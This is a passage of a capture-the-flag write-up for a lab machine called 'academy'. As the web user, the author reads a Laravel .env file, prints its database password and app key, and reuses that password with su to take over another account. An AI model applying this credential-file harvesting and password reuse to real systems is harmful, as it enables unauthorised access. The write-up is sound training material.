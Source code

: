 ## Privilege Escalation

### Credentials

There were a lot of users present on this machine:

```
www-data@academy:/home$ ls -la
total 32
drwxr-xr-x  8 root     root     4096 Aug 10  2020 .
drwxr-xr-x 20 root     root     4096 Feb 10  2021 ..
drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10  2020 21y4d
drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10  2020 ch4p
drwxr-xr-x  4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 cry0l1t3
drwxr-xr-x  3 egre55   egre55   4096 Aug 10  2020 egre55
drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10  2020 g0blin
drwxr-xr-x  5 mrb3n    mrb3n    4096 Aug 12  2020 mrb3n
```

The `cry0l1t3` user had the user flag, which we could not read yet. While checking the `/var/www/html/academy` directory, we can find a `.env` file:

```
www-data@academy:/var/www/html/academy$ ls -la
total 280
drwxr-xr-x 12 www-data www-data   4096 Aug 13  2020 .
drwxr-xr-x  4 root     root       4096 Aug 13  2020 ..
-rw-r--r--  1 www-data www-data    706 Aug 13  2020 .env
-rw-r--r--  1 www-data www-data    651 Feb  7  2018 .env.example
```

Within it, there were some credentials.

```
www-data@academy:/var/www/html/academy$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

We can `su` to `cry0l1t3` with this password and grab the user flag.

### Audit Logs
